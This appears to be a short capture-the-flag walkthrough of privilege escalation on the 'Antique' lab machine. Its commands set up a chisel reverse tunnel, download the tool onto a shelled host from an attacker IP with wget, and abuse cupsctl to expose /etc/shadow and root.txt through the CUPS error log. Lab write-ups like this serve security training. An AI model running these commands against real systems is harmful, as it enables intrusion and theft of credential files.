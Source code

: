 setup chisel for port forwarding
~~~
git clone https://github.com/jpillora/chisel
cd chisel && go build -ldflags="-s -w"
sudo ./chisel server -p 8000 --reverse
~~~

copy chisel to server using simple http server

on your machine:
~~~
python3 -m http.server
~~~

on server through revshell:
~~~
wget 10.10.14.47:1111/chisel
~~~

you can now explore CUPS at:

~~~
127.0.0.1:631
~~~


in reverse shell you can have the error log have arbitrary files ex:

~~~
cupsctl ErrorLog="/etc/shadow"
~~~

and you can curl the err log:

~~~
curl http://localhost:631/admin/log/error_log?
~~~
![](antique-privesc-ex-1.png)
you can have the error log serve the root.txt

